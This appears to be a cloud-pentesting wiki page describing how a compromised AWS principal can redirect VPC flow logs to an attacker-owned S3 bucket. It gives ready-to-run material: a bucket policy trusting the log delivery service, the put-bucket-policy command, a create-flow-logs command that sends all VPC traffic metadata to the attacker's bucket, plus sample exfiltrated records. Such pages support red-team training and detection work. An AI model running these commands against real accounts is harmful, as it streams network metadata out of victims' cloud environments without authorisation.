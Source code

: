 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Summary
Abuse `ec2:CreateFlowLogs` to export VPC, subnet, or ENI flow logs directly to an attacker-controlled S3 bucket. Once the delivery role is configured to write to the external bucket, every connection seen on the monitored resource is streamed out of the victim account.

## Requirements
- Victim principal: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, and `iam:PassRole` (if a delivery role is required/created).
- Attacker bucket: S3 policy that trusts `delivery.logs.amazonaws.com` with `s3:PutObject` and `bucket-owner-full-control`.
- Optional: `logs:DescribeLogGroups` if exporting to CloudWatch instead of S3 (not needed here).

## Attack Walkthrough

1) **Attacker** prepares an S3 bucket policy (in attacker account) that allows the VPC Flow Logs delivery service to write objects. Replace placeholders before applying:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowVPCFlowLogsDelivery",
      "Effect": "Allow",
      "Principal": { "Service": "delivery.logs.amazonaws.com" },
      "Action": "s3:PutObject",
      "Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
      "Condition": {
        "StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
      }
    }
  ]
}
```

Apply from the attacker account:

```bash
aws s3api put-bucket-policy \
  --bucket <attacker-bucket> \
  --policy file://flowlogs-policy.json
```

2) **Victim** (compromised principal) creates the flow logs targeting the attacker bucket:

```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
  --resource-type VPC \
  --resource-ids "$VPC_ID" \
  --traffic-type ALL \
  --log-destination-type s3 \
  --log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
  --deliver-logs-permission-arn "$ROLE_ARN" \
  --region "$REGION"
```

Within minutes, flow log files appear in the attacker bucket containing connections for all ENIs in the monitored VPC/subnet.

## Evidence

Sample flow log records written to the attacker bucket:

```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```

Bucket listing proof:

```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```

## Impact
- Continuous network metadata exfiltration (source/destination IPs, ports, protocols) for the monitored VPC/subnet/ENI.
- Enables traffic analysis, identification of sensitive services, and potential hunting for security group misconfigurations from outside the victim account.

{{#include ../../../../banners/hacktricks-training.md}}
